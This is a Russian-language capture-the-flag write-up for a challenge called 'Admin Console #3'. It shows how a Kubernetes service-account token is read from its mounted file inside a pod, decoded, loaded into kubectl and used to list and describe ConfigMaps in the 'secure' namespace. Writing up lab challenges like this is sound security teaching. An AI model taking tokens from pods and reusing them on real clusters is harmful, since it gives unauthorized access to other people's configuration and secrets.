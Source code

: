 # Admin Console \#3

Из названия переменных окружения делаем предположение, что это K8s. Нас просят посмотреть объект ConfigMap (описание намекает через "файлы конфигурации").

Никаких вольюмов не подключено, надо попробовать авторизоваться в кластере через ServiceAccount

Он есть, в контейнере по пути `/var/run/secrets/kubernetes.io/serviceaccount/token` лежит JWT токен для авторизации. Копируем его, смотрим через jwt.io в Debugger

```json
{
  "aud": [
    "kubernetes.default.svc"
  ],
  "exp": 1711448215,
  "iat": 1679912215,
  "iss": "kubernetes.default.svc",
  "kubernetes.io": {
    "namespace": "secure",
    "pod": {
      "name": "admin-console-66dd88775f-6tq9w",
      "uid": "5057921c-6763-4fcc-b1bf-fa30811384fb"
    },
    "serviceaccount": {
      "name": "webadmin",
      "uid": "98fd513c-83fc-42e3-b706-898c2f00de7d"
    },
    "warnafter": 1679915822
  },
  "nbf": 1679912215,
  "sub": "system:serviceaccount:secure:webadmin"
}
```

В названии токена видим название и Namespace для ServiceAccount

```yaml
Namespace: secure  
Name: webadmin
```

Необходимо собрать kubeconfig и авторизоваться. До этого необходимо поставить kubectl

```bash
kubectl config set-credentials webadmin --token <token>
kubectl config set-context --current --user=webadmin
```

Хост для авторизации надо брать из запроса к API Kubernetes (привожу запрос относительно bash пода). api-srv надо брать из environments переменных из KUBERNTES_PORT_443_TCP

```bash 
KUBERNETES_PORT_443_TCP=tcp://10.96.128.1:443
curl –cacert  -H «Authorization: BEARER <token>» https://<api-srv>/api/v1/namespaces/default/endpoints
```

Далее сделать команду 

```bash 
kubectl get configmaps -n secure
```

И сделать просмотр значений найденной мапы
```
kubectl describe configmap <name> -n secure
```
